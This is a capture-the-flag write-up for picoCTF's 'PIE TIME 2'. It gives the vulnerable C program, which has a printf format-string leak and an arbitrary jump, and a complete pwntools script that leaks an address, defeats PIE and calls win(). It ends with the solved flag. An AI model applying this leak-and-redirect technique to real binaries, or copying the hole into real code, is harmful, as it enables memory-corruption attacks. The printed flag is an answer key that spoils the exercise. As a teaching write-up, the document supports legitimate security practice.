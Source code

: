 # [Pwn] PIE TIME 2

## 📚 Overview

> *"Can you try to get the flag? I'm not revealing anything anymore!!"*

> *"Hints - What vulnerability can be exploited to leak the address? Please be mindful of the size of pointers in this binary"*

## 💻 Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

## ⚙ Full Script

```python
from pwn import *
elf = context.binary = ELF("./vuln", checksec=False)

# p = process('./vuln')
p = remote("rescued-float.picoctf.net", 64527)

p.sendlineafter(b"Enter your name:", b'%p '*20)
leak = p.recvline().strip()
addresses = re.findall(b'0x[0-9a-f]+', leak)

LEAK_ADDR = int(addresses[17], 16)
log.info("Leak address: " + hex(LEAK_ADDR))
BASE_ADDR = LEAK_ADDR - 0x1441
log.info("Base address: " + hex(BASE_ADDR))
WIN_ADDR = BASE_ADDR + elf.symbols.win
log.info("Win address: " + hex(WIN_ADDR))

p.sendlineafter(b"ex => 0x12345: ", hex(WIN_ADDR))
response = p.recvall(timeout=1).strip()
print(response.decode())

p.close()
```

## 🏳 Flag 

`picoCTF{p13_5h0u1dn'7_134k_8c8ae861}`